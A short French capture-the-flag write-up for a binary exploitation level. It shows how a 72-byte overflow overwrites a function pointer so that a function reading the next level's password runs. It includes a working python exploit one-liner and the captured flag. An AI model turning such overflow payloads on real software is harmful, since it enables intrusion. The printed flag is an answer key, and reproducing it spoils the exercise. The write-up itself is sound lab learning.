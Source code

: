 Dans ce niveau on voit que dans e main il y a un appel a un pointeur sur fonction `0x080484d0 <+84>:	call   *%eax`

Si on regarde les fonctions existantes nous avec `m()` et `n()`

La fonction `m()` renvoi `Nope` pendant que `n()` cherche a exec `"/bin/cat /home/user/level7/.pass"`

On va donc chercher a appeler `n()` en changeant le pointeur sur fonction

Si on execute le prog avec un arg et qu'on break avant l'appel on a `print $eax = 134513768 = 0x8048468 = adresse de m()`

Et si on le fait segfault avec 72 'A' on voit que l'adresse qui est appele est `0x41414141`

L'objectif est donc `set $eax = 134513748 = 0x08048454 = adresse de n()`

On va lui passer en arg `72 'A'` + l'adresse de `n()` :
    `(python -c 'print"A"*72 + "\x54\x84\x04\x08"') | xargs ./level6`

La fonction `n()` est appele et le flag sort : `f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d`